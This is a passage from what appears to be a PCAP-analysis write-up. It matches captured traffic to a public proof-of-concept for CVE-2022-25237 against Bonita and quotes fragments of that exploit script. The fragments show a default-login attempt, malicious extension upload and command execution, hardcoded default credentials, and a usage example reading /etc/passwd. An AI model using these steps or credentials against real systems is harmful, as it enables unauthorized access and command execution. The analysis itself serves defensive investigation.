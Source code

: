 Searching for POC’s for CVE-2022-25237, I’ll find [this one](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2022-25237) from Rhina Security Labs:

![image-20240422144040790](/img/image-20240422144040790.png)

The extension name matches. On [lines 98 - 107](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2022-25237/CVE-2022-25237.py#L98-L107) it tries the default login and then (when that fails) tries the given creds:

```

if not try_default_logins():
    print("[!] Did not find default creds, trying supplied credentials.")
    login()
upload_api_extension()
activate_api_extension()
try:
    run_cmd()
except:
    delete_api_extension()
delete_api_extension()

```

Then it uploads the extension, activates it, runs the command, and deletes the extension. Each of those functions sends the requests that I see in the PCAP. This pattern is exactly what I was suspecting [above](#http-requests-after-stuff).

The script does this really unusual thing where it creates a class to hold the command line args which fails if they aren’t all there and prints the usage:

```

class exploit:
    try:
        session = requests.session()
        bonita_user = sys.argv[1]
        bonita_password = sys.argv[2]
        target_path = sys.argv[3]
        cmd = sys.argv[4]
        tempPath = ""
        extension_id = ""
        bonita_default_user = "install"
        bonita_default_password = "install"
        platform_default_user = "platformAdmin"
        platform_default_password = "platform"
    except:
        print(f"Usage: python3 {sys.argv[0]} <username> <password> http://localhost:8080/bonita 'cat /etc/passwd'")
        exit()

```

Then the different functions make use of this. For example, `login`:
